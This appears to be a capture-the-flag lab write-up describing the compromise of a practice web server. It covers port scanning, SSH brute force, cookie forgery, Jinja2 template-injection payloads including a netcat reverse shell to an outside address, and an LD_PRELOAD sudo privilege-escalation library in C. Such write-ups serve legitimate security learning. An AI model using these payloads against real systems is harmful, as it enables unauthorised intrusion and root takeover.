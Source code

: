 Started initial Nmap scan:
`nmap -T4 -p- 10.10.132.245 -oN initial`

Meanwhile started gobuster scan on the default Apache webpage I found:
`gobuster dir -u http://10.10.132.245 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o directories`

Did another Nmap scan for the open ports:
`nmap -sV -sC -p80,22 -oN ports 10.10.132.245`

Found possible usernames, Jed and Jad.

Attempting brute force:
`hydra -l ged -P /usr/share/wordlists/rockyou.txt 10.10.132.245 ssh`

Found a base64 data in a cookie, decoded to guest.
Changed it to YWRtaW4= (admin) and got admin access, than another cookie for sales amount showed up.

After looking at a write up found the following website:
[SSTI in Flask/Jinja2](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)

By putting the next code in the cookie decoded I got access:
`{{ ''.__class__.__mro__[1].__subclasses__()[401]('ls',shell=True,stdout=-1).communicate()}}`

Used the following code to finally get a shell:
`{{ ''.__class__.__mro__[1].__subclasses__()[401]('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.31.71 1234 >/tmp/f',shell=True,stdout=-1).communicate()}}`

Upgrading the shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

By running `sudo -l` I found I have sudo permission to ps and that the LD_PRELOAD is set, so I wrote the following c code to get a root shell:

```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```

I Than got the file to the victim machine using a python server and compiled it to .so file using:
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

Finally I ran the following command to preload the library and get a root shell:
`sudo LD_PRELOAD=./shell.so ps`